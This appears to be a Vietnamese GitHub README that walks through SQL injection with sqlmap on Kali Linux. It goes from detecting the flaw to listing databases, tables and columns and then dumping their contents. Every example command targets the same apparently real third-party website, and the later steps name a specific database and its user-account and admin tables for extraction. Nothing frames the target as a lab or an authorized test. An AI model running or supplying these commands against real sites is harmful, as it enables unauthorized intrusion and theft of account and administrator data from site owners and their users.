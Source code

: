 ## SQL injection sử dụng tools sqlmap trên kali
- quét lỗ hổng sql: `sqlmap -u *"url của đối tượng cần quét"*`. Ví dụ: `sqlmap -u "http://www.sendpoints.cn/publication_detail.php?id=267&cId=0002.0001.0000.0000"` url có dạng `index.php?id=`
- sau khi xác định có lỗ hổng sql ta có thể tiến hành lấy database của đối tượng
- lấy database: `sqlmap -u *"url của đối tượng cần quét"* --dbs`. Ví dụ `sqlmap -u "http://www.sendpoints.cn/publication_detail.php?id=267&cId=0002.0001.0000.0000" --dbs`
- sau khi lấy được danh sách các database có thể lấy được ta tiến hành lấy các bảng trong database đó
- Lấy danh sách bảng: `sqlmap -u *"url của đối tượng cần quét"* --table -D *tên database cần lấy*`. Ví dụ: `sqlmap -u "http://www.sendpoints.cn/publication_detail.php?id=267&cId=0002.0001.0000.0000" --table -D hkhostco_spen`
- sau khi lấy được danh sách bảng ta có thể lấy thông tin các cột có trong danh sách đó
- Lấy danh sách cột: `sqlmap -u *"url của đối tượng cần quét"* --columns -T *tên cột cần lấy* -D *tên database cần lấy*`. Ví dụ: `sqlmap -u "http://www.sendpoints.cn/publication_detail.php?id=267&cId=0002.0001.0000.0000" --columns -T ltt_useraccount -D hkhostco_spen`
- sau khi lấy được danh sách các cột, ta có thể lấy nội dung của các cột đó
- Lấy nội dung các cột: `sqlmap -u *"url của đối tượng cần quét"* --dump -T *tên cột cần lấy* -D *tên database cần lấy*`. Ví dụ: `sqlmap -u "http://www.sendpoints.cn/publication_detail.php?id=267&cId=0002.0001.0000.0000" --dump -T ltt_admin -D hkhostco_spen`
